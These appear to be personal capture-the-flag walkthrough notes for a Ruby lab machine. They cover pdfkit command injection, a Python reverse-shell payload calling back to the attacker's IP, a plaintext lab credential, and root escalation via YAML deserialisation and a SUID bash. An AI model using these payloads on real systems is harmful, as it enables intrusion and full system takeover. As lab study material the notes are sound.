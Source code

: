 info:
Service built on ruby
Foothold: done using ruby SSTI on vuln verison of pdfconverter
Enum: Get userpass from some file in the user "ruby directory" on hidden .bundle  folder contains config file with password

PE: 
Malicious file

1. Add the ip to /etc/hosts file so it loads the page
2. Set up python server to test the uploads conversion to pdf
3. use `exiftool` to analyse pdf
	- Found out its using a vuln verison of pdfkit v0.8.6
	- Google it to find command injection is possible
	- Tried using ``"http://10.10.XX.XX/?name=%20#{id}"`` but didnt work
	- Solution was ``"http://10.10.XX.XX/?name=%20`id`"`` using backticks instead
	- get a payloal rev shell...python3 the only one that worked??
	- ``http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'\`
	- run nc -lvnp 9001 before uploading the shell
	- shud receive a bash shell

4.  Enumerate user "Ruby" to find password for user "henry" in some config file on a hidden .bundle folder
henry:Q3c1AqGHtoI0aXAYFH

5. ssh in using henry credentials
```bash
ssh henry@10.10.11.198
#enter password from above
```
6. cat the flag file in /henry/
7. Manually check for PE oppurtunities
	1. use sudo -l to list out folders that henry can access
	2. The follwing appears: 
	3. User henry may run the following commands on precious:
	    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
	3. check out the folders to find a ruby file update_dependencies

8. cat /opt/update_dependencies.rb 
9. Found vulnerability used by the file to execute stuff with root priv
10. YAML.load is not safe due to 'YAML deserialisation attack'
```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
```
Should be using YAML.safe_load() instead
This means when dependencies.yml is changed, arbitrary code execution is possible

11. Test out the vuln (change the below line in the dependencies.yml file)
		git_set: id
	--> this should test if id is given when ruby is used to run the update_dependencies.rb code
	--> The id shud appear with below command
	```bash
	# ruby is used to run update_dependencies.rb with sudo priveledges from henry
 sudo /usr/bin/ruby /opt/update_dependencies.rb
```
12. PE time
	1. change the git_set to git_set: "chmod +s /bin/bash" 
	2. check `ls -al /bin/bash` to see if SUID (Set User ID) has been given to /bin/bash so that it runs as the owner of the file (ie running it as root)
	3. /bin/bash -p  --> runs bash  in priveledged mode, keeping the UID of the person who launched it (ie henry) but since +s is set the new bash terminal has root priv
13. Root access gained from above PE cat out the flags.